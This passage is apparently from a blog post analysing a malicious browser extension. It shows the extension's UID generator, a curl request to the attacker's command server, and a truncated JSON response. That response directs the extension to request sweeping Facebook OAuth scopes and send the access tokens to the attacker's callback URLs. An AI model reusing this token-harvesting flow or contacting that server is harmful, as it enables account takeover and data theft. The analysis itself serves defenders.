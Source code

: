 {% highlight javascript linenos %}
function generateUID() {
	var array = new Uint32Array(8);
	window.crypto.getRandomValues(array);
	
	return [].map.call(array, function(n) {
		return n.toString(16)
	}).join('');
}
{% endhighlight %}

I ran it once, and it gave me:

{% highlight bash %}
c38ae4ec1d2820bc9e2c03c0fe517585644576c988a03ae84af63b6d2bc9e7
{% endhighlight %}

So this is what I'll use as an example. You'll need to create your own <abbr title="Unique Identifier">UID</abbr> if you want to get your very own instructions. To simulate a request to the server, I ran:

{% highlight bash %}
curl -o actions.json http://159.203.99.206/api/get/c38ae4ec1d2820bc9e2c03c0fe517585644576c988a03ae84af63b6d2bc9e7
{% endhighlight %}

This returns a <abbr title="JavaScript Object Notation">JSON</abbr> file containing a list of actions that the extension will undertake. Here are the instruction I got:

{% highlight json linenos %}
{
	"actions": [
		{
			"actionType": "ap",
			"data": {
				"url": "https://www.facebook.com/dialog/oauth?redirect_uri=http%3A%2F%2Fwww.facebook.com%2Fconnect%2Flogin_success.html&scope=email%2Cpublish_actions%2Cuser_about_me%2Cuser_actions.books%2Cuser_actions.music%2Cuser_actions.news%2Cuser_actions.video%2Cuser_activities%2Cuser_birthday%2Cuser_education_history%2Cuser_events%2Cuser_games_activity%2Cuser_groups%2Cuser_hometown%2Cuser_interests%2Cuser_likes%2Cuser_location%2Cuser_notes%2Cuser_photos%2Cuser_questions%2Cuser_relationship_details%2Cuser_relationships%2Cuser_religion_politics%2Cuser_status%2Cuser_subscriptions%2Cuser_videos%2Cuser_website%2Cuser_work_history%2Cfriends_about_me%2Cfriends_actions.books%2Cfriends_actions.music%2Cfriends_actions.news%2Cfriends_actions.video%2Cfriends_activities%2Cfriends_birthday%2Cfriends_education_history%2Cfriends_events%2Cfriends_games_activity%2Cfriends_groups%2Cfriends_hometown%2Cfriends_interests%2Cfriends_likes%2Cfriends_location%2Cfriends_notes%2Cfriends_photos%2Cfriends_questions%2Cfriends_relationship_details%2Cfriends_relationships%2Cfriends_religion_politics%2Cfriends_status%2Cfriends_subscriptions%2Cfriends_videos%2Cfriends_website%2Cfriends_work_history%2Cads_management%2Ccreate_event%2Ccreate_note%2Cexport_stream%2Cfriends_online_presence%2Cmanage_friendlists%2Cmanage_notifications%2Cmanage_pages%2Cphoto_upload%2Cpublish_stream%2Cread_friendlists%2Cread_insights%2Cread_mailbox%2Cread_page_mailboxes%2Cread_requests%2Cread_stream%2Crsvp_event%2Cshare_item%2Csms%2Cstatus_update%2Cuser_online_presence%2Cvideo_upload%2Cxmpp_login&response_type=token&client_id=41158896424&_rdr",
				"callback": "http://159.203.99.206/api/getToken"
			}
		},
		{
			"actionType": "ap",
			"data": {
				"url": "https://www.facebook.com/dialog/oauth?redirect_uri=http%3A%2F%2Fwww.facebook.com%2Fconnect%2Flogin_success.html&scope=email%2Cpublish_actions&response_type=token&client_id=241284008322&_rdr",
				"callback": "http://159.203.99.206/api/getToken2"
			}
		},
		{
			"actionType": "lk",
			"data": {
				"id": "VVideosss"
